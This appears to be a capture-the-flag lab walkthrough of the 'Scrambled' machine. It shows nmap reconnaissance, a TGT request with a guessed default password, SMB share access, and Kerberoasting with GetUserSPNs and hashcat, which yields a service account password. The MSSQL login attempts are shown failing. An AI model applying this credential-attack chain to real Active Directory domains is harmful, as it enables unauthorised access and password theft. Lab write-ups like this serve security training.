






# NMAP RECON

```bash
sudo nmap -sV -sC 10.129.198.23 -p- -Pn -A -v
```

and we can see port 80 is open throughout surfing on the web we found the NTLM authentication is disabled as a part of security breach




and we can see a username on the the website screenshot







As per the instruction the password should be reseted as ksimpson lets give it a try ton get TGT using getTGT 

```bash
getTGT.py scrm.local/ksimpson:ksimpson

export KRB5CCNAME=/home/penguin/Scrambled/ksimpson.ccache

```




and we can use smbclient to access the pdf from the public share 
```bash
smbclient.py -k scrm.local/ksimpson:ksimpson@dc1.scrm.local -dc-ip dc1.scrm.local
```

As we can see from the pdf mentioing using kerbrose authentication instead NTLM lets start by enumeration users 

```BASH
 python3 /home/penguin/.local/bin/GetUserSPNs.py -k scrm.local/ksimpson:ksimpson -dc-host dc1.scrm.local -k -no-pass
```




and lets request for the hash and crack it using hashcat
```bash
penguin㉿0XFAF0)-[~/Scrambled]
└─$ python3 /home/penguin/.local/bin/GetUserSPNs.py -k scrm.local/ksimpson:ksimpson -dc-host dc1.scrm.local -k -no-pass -request
```




```bash
hashcat sql_svc_hash /usr/share/wordlists/rockyou.txt  
```

and the cracked password the 
`svcsql: Pegasus60 `

lets try to access the sql service with given credentials

```bash
 sqsh -S 10.129.198.23 -U svc_Sql -P Pegasus60
```
no luck with that so lets try again to request for and TGT then lets try again

```bash
python3 /home/penguin/.local/bin/mssqlclient.py dc1.scrm.local -k
```
it wasnt working as expected 
